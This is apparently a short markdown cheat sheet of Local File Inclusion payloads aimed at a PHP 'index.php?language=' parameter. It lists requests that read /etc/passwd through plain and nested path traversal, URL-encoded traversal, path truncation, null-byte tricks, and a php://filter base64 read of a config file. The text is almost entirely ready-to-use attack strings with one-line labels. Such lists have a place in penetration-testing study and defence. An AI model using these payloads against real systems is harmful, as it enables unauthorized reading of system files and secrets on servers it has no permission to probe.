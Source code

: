 ___
# LFI

| `/index.php?language=/etc/passwd`                        | Basic LFI               |
| -------------------------------------------------------- | ----------------------- |
| `/index.php?language=../../../../etc/passwd`             | LFI with path traversal |
| `/index.php?language=/../../../etc/passwd`               | LFI with name prefix    |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path  |

# Basic Bypasses

| `/index.php?language=....//....//....//....//etc/passwd`                                          | Bypass basic path traversal filter                        |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`          | Bypass filters with URL encoding                          |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00`                                                   | Bypass appended extension with null byte (obsolete)       |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                     | Read PHP with base64 filter                               |
|                                                                                                   |                                                           |


![[Pasted image 20241010133640.png]]

